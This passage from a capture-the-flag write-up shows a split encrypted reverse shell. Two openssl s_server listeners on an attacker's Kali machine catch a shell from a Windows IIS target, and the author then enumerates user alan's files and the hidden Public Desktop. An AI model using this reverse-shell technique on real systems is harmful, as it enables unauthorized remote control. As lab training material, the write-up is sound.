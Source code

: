 
Note that the `start` is really important here as that opens this in a new
process so that it stays running after the web request times out.

The listener on 73 doesn’t show anything, but on 136, I get:

    
    
    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv>
    

If I type into the 73 listener, I get results (including the command typed) in
the 136 listener:

    
    
    root@kali# rlwrap openssl s_server -quiet -key key.pem -cert cert.pem  -port 73
    whoami
    
    
    
    c:\windows\system32\inetsrv>whoami
    ethereal\alan
    
    c:\windows\system32\inetsrv>
    

Given that the entire transcript shows up in the 136 window, I will just show
that from now on. But know that every command I type into this shell is
actually entered into the port 73 connection. Also, I’m using `rlwrap` on the
port 73 connection. That gives me history with up arrow on that terminal.

## Shell as Jorge

### Enumeration

On alan’s desktop, I don’t find `user.txt`, but I do find `note-draft.txt`:

    
    
    c:\Users\alan\Desktop>type note-draft.txt
    I've created a shortcut for VS on the Public Desktop to ensure we use the same version. Please delete any existing shortcuts and use this one instead.
    
    - Alan
    

It might appear that public doesn’t have a desktop, but it’s just hidden, and
will show up with a `/a`:

    
    
    c:\Users\Public>dir /a
     Volume in drive C has no label.
     Volume Serial Number is FAD9-1FD5
    
     Directory of c:\Users\Public
    
    07/07/2018  10:25 PM    <DIR>          .
    07/07/2018  10:25 PM    <DIR>          ..
    07/04/2018  08:42 PM    <DIR>          AccountPictures
    07/17/2018  08:26 PM    <DIR>          Desktop
    07/16/2016  01:21 PM               174 desktop.ini
    06/25/2018  02:51 PM    <DIR>          Documents
    07/03/2018  09:25 PM    <DIR>          Downloads
    07/16/2016  01:23 PM    <DIR>          Libraries
    07/16/2016  01:23 PM    <DIR>          Music
    07/16/2016  01:23 PM    <DIR>          Pictures
    07/16/2016  01:23 PM    <DIR>          Videos
                   1 File(s)            174 bytes
                  10 Dir(s)  15,428,009,984 bytes free
    